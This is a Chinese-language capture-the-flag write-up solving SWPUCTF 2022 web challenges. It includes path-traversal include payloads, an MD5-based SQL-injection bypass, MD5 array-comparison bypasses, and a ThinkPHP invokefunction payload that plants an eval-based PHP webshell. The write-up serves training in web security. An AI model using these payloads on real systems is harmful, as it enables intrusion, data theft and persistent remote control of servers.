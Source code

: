 # SWPUCTF 2022

## Web

### numgame

进入页面后是个文字游戏，题目为 `10+10=?` ，但是无论如何加减都不能改到 `20` 。

<figure><img src=".gitbook/assets/numgame-1.png" alt=""><figcaption></figcaption></figure>

因此开始尝试 `F12` 打开开发者工具，但是不起作用，发现右键也被禁用了。下一步直接一把梭把 JavaScript 禁用了，禁用之后打开开发者工具，可以发现 `/js/1.js` ，其内容如下

```js
var input = $('input'),
    input_val = parseInt(input.val()),
    btn_add = $('.add'),
    btn_remove = $('.remove');

input.keyup(function() {
    input_val = parseInt(input.val())
});

btn_add.click(function(e) {
    input_val++;
    input.val(input_val);
    console.log(input_val);
    if(input_val==18){
        input_val=-20;
        input.val(-20);

    }
});

btn_remove.click(function(e) {
    input_val--;
    input.val(input_val);
});
// NSSCTF{TnNTY1RmLnBocA==}
```

对 `TnNTY1RmLnBocA==` 进行 Base64 解码可以得到 `NsScTf.php` ，访问 `NsScTf.php` 可以得到以下内容

```php
<?php
error_reporting(0);
//hint: 与get相似的另一种请求协议是什么呢
include("flag.php");
class nss{
    static function ctf(){
        include("./hint2.php");
    }
}
if(isset($_GET['p'])){
    if (preg_match("/n|c/m",$_GET['p'], $matches))
        die("no");
    call_user_func($_GET['p']);
}else{
    highlight_file(__FILE__);
}
```

通过提示可得知应该使用 `POST` 请求协议，由于 nss 类内函数 ctf 为静态函数，可以直接通过 `nss::ctf` 来调用。通过访问 `/hint2.php` 可以得知类名为 `nss2` ，因此通过构造 payload `p=nss2::ctf` 就可以得到 flag 了。

### ez\_ez\_php

```php
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 3) === "php" ) {
        echo "Nice!!!";
        include($_GET["file"]);
    } 

    else {
        echo "Hacker!!";
    }
}else {
    highlight_file(__FILE__);
}
//flag.php
```

Payload 如下

```
file=php/../flag.php
```

回显如下

```
Nice!!!NSSCTF{flag_is_not_here}
real_flag_is_in_'flag'
```

最终 Payload 如下

```
file=php/../flag
```

### ez\_ez\_php(revenge)

```php
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 3) === "php" ) {
        echo "Nice!!!";
        include($_GET["file"]);
    } 

    else {
        echo "Hacker!!";
    }
}else {
    highlight_file(__FILE__);
}
//flag.php
```

Payload 如下

```
file=php/../../../../../../flag
```

### ez\_rce

先来一波 Dirsearch

```bash
$ python dirsearch.py -u http://node1.anna.nssctf.cn:28559/
[20:22:00] 200 -   35B  - /.gitignore
[20:30:31] 200 -   18KB - /composer.lock
[20:30:31] 200 -  942B  - /composer.json
[20:39:07] 200 -   46B  - /robots.txt
[20:42:03] 200 -    0B  - /vendor/autoload.php
[20:42:04] 200 -    0B  - /vendor/composer/autoload_classmap.php
[20:42:04] 200 -    0B  - /vendor/composer/autoload_files.php
[20:42:04] 200 -    0B  - /vendor/composer/autoload_namespaces.php
[20:42:04] 200 -    0B  - /vendor/composer/autoload_real.php
[20:42:04] 200 -    0B  - /vendor/composer/ClassLoader.php
[20:42:04] 200 -    0B  - /vendor/composer/autoload_static.php
[20:42:04] 200 -   16KB - /vendor/composer/installed.json
[20:42:04] 200 -    1KB - /vendor/composer/LICENSE
[20:42:04] 200 -    0B  - /vendor/composer/autoload_psr4.php
```

`robots.txt` 内容如下

```
User-agent: *
Disallow:
  -  /NSS/index.php/
```

访问 `/NSS/index.php` 可以得到提示 `ThinkPHP` 。

<figure><img src=".gitbook/assets/ez_rce-1.png" alt="" width="307"><figcaption></figcaption></figure>

通过 `ThinkPHP-Scan` 扫描一下。

```bash
$ python thinkphp_scan.py -url http://node1.anna.nssctf.cn:28559/NSS/index.php
[Info] > thinkphp_invoke_func_code_exec True
```

构造 Payload 如下以来传入 Shell

```
s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php eval($_POST[1]);?>
```

通过蚁剑连接

```
http://node1.anna.nssctf.cn:28559/NSS/shell.php
```

连接后发现根目录的 `/flag` 是空的，发现 `nss` 文件夹，最后发现 flag 在 `/nss/ctf/flag/flag` 。

### 奇妙的MD5

在 Header 头可以看到 Hint 。

```
select * from 'admin' where password=md5($pass,true)
```

可以通过 `ffifdyop` 进行绕过，原因是 `ffifdyop` 经过 md5 加密后变成 `276f722736c95d99e921722cf9ed621c` ，再转换成字符串则变为 `'or'6É]é!r,ùíb` 使得以上 SQL 语句变成了如下样子。

```
select * from 'admin' where password=''or'6É]é!r,ùíb'
```

跳转后，得到源代码如下

```html
<!--
$x= $GET['x'];
$y = $_GET['y'];
if($x != $y && md5($x) == md5($y)){
    ;
-->
```

Payload 如下

```
x[]=1&y[]=2
```

可以得到以下代码

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){
    echo $FLAG;
}
```

Payload 如下

```
wqh[]=1&dsy[]=2
```

就可以得到 flag 了。

### where\_am\_i

问题：什么东西是11位啊？

那就是需要找图上这个地方的电话号码。

http://www1.zmjd100.com/hotel/pc/1283140?checkIn=2023-07-26\&checkOut=2023-07-27

02886112888
